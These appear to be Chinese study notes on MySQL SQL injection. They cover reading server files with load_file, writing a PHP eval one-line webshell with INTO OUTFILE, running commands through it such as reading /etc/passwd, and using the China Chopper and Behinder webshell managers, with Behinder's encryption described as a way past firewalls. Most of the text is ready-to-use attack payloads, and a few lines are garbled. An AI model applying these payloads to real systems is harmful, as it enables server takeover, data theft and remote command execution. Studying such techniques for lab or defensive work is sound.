 # 文件读写与木马植入

## 一、读写权限确认

```sql
show global variables like '%secure%';
# 查看mysql全局变量的配置，当输入以上命令后，结果
secure_file_priv = 空 的时候，任意读写
secure_file_priv = 某个路径的时候，只能在规定的路径下读写
secure_file_priv = NULL 不能读写
```

## 二、读取文件

- 利用SQL语句读取系统文件，先读取常规文件（明确路径），如果能成功读取，则继续读取其他文件；如果明确知道路径，则尝试爆破路径下的文件；如果不知道路径，则爆破路径。

```
-1' union select 1,2,3,load_file("c:/windows/service.inf"),5,6

-1' union select 1,2,3,load_file("D:/XamppNew/htdics/security/commin.php"),5,6
```

## 三、写入木马

```
例如：select "helloworld" into outfile "/opt/lampp/htdocs/security/muma.php"

-1 union select 1,2,3,4,5,"<?php eval($_GET['a']);?>" intooutfile "D:/XamppNew/htdocs/security/temp/muma.php"

如果列数未知，也可以不停尝试，注入一次，访问一次，确认是否注入成功

一句话木马：
<?php eval($_POST['a']);?>
eval可以将一段字符串当成代码来执行，如果用户可以直接 将这段有效的PHP代码传入后台，则可以执行任意代码或指令

/security/temp/muma/php?a=phpinfo();
/security/temp/muma/php?a=echo date('Y-m-d');
/security/temp/muma/php?a=system('ip addr');
/security/temp/muma/php?a=system('cat /etc/passwd');

以上为GET请求的方式，也可以用POST请求的方式，这样可以添加的载荷更大，可以上传大马，但建议通过curl下载的方式植入大马
-1 union select 1,2,3,4,5,"<?php eval($_POST['a']);?>" intooutfile "D:/XamppNew/htdocs/security/temp/muma.php"

也可以上传一句话木马后，通过中国菜刀连接以便于操作
```

## 四、中国菜刀

- 必须提前已经我去南城了木马植入然后才能使用。
- 木马必须是POST请求，参数自定义，在菜刀中给出正确的参数名。
- 菜刀采用Base64编码，相当于明文传输，目前已经被WAF进行防护了

## 五、冰蝎

- 冰蝎是加密传输，防火墙很难分析出流量特征，比较容易绕开防火墙
- 先上传一个冰蝎自己的带加密解密功能的shell脚本
- 上传shell的过程有以下方式
  - 直接在命令行运行命令按行用echo写入
  - 用curl通过公网进行远程文件下载
  - 用菜刀连接，然后基于菜刀直接上传shell
  - 如果目标站点存在文件上传漏洞，直接在文件上传的时候上传shell